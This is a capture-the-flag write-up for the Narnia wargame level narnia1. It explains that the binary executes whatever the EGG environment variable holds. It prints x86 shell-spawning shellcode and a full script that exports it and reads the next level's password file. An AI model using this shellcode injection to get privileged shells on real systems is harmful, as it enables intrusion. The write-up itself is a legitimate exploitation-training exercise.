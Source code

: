 # narnia1

`/narnia/narnia1` can be exploited by executing [shellcode](https://en.wikipedia.org/wiki/Shellcode) in a vulnerable environment variable.

## Aim

Set the environment variable `EGG` to something `narnia1` can execute and we can exploit.

## Analysis

`narnia1.c` is pretty clear that it will try to read end execute the environment variable `EGG`.

```c
ret = getenv("EGG");
ret();
```

This gives us complete freedom to insert whatever arbitary code we like in memory before running the program. The code will need to be raw assembly.

## Exploitation
### Design

The easiest and simplest arbitary code is a [shellcode](https://en.wikipedia.org/wiki/Shellcode) which provides shell access (with the implicit priviliges of the parent program).

### Implementation

A quick Google search reveals a known shellcode for Intel processors (your architecture may be different).

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

Environment variables are set with `export` to make them available to child processes.

```bash
export EGG="$SHELLCODE"
```

Putting it all together:

```bash
#!/bin/sh

# Eggshell is assembly code that simply calls a shell
EGGSHELL="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

# Set our arbitary code to execute in EGG
export EGG=$(printf "$EGGSHELL") && \

# Our command to run once we have an escalated shell
printf "cat /etc/narnia_pass/narnia2\n" | \

# Pass exploit to the program
/narnia/narnia1
```
